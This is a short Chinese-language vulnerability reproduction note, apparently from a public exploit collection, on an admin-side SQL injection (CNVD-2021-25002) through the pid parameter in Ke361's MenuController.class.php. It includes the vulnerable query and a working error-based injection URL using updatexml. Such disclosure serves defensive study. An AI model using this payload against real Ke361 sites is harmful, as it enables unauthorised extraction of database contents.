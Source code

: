 # Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

# Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![image-20220518153611158](/images/202205181536242.png)

Get 传参 pid 传入SQL语句

```
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153624882](/images/202205181536951.png)

